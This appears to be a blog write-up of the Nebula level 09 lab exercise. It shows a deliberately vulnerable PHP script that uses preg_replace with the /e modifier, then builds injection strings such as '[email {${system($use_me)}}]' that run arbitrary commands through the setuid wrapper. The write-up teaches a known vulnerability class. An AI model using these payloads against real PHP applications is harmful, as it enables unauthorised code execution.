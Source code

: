 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 09"
date: 2014-01-24 11:43:40 +0800
comments: true
categories: 
- Security
- Exercises
- Nebula
---
```


### About

There's a C setuid wrapper for some vulnerable PHP code...

To do this level, log in as the *level09* account with the password *level09*. Files for this level can be found in /home/flag09. 

### Source code

``` php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

<!-- more -->

### Solution

This php snippet does the following things:

- read the content of file $argv[1]
- replace all the text paterns liket "[email hjc@hanjc.me]" with "hjc AT hanjc dot me"
- replace all the "[" with "<", replace "]" with ">"

At the very first glace, there seems to be no problem about this code (well, turns out to be that anyone who is familiar with php security would recognize immediatly the vulnerability). But what I knew was that if there be something wrong, it must be the php function `preg_replace`.

Google this function and I found many useful thing. There is a [bug report](https://bugs.php.net/bug.php?id=35960) related to this function, and another [article](http://www.madirish.net/402) explains in detail about how to exploit this vulnerability. 

In general, the vulnerability exists when a "\e" is set in the PCRE expression provided to the `preg_replace` function (as in the code above), in this case, php will do normal substitution of backreferences in the replacement string, evaluate it as PHP code, and use the result for replacing the search string, as mentioned [here](http://php.net/manual/en/reference.pcre.pattern.modifiers.php). This link also provides an input string tha could exploit this function, which is 

	<h1>{${eval($_GET[php_code])}}</h1>

As my goal is to run system command with this function, I modified this attack string to be

	[email {${system('touch /home/flag09/test')}}]

Save this string in /tmp/txt, and run the following command 

``` bash
$ /home/flag09/flag09 /tmp/txt noused
```

Although the program produced some errors, the file /home/flag09/test indeed appeared! So this should be a doable way to execute any command, but it is not convenient. Notice there is an additional argument `$use_me` to function `markup` that is never used in the function, the name of this variable indicates its purpose, which is too obvious to ignore. So I modified /tmp/txt to 

	[email {${system($use_me)}}]

Now I could run any command with

``` bash
$ /home/flag09/flag09 /tmp/txt "any command"
```



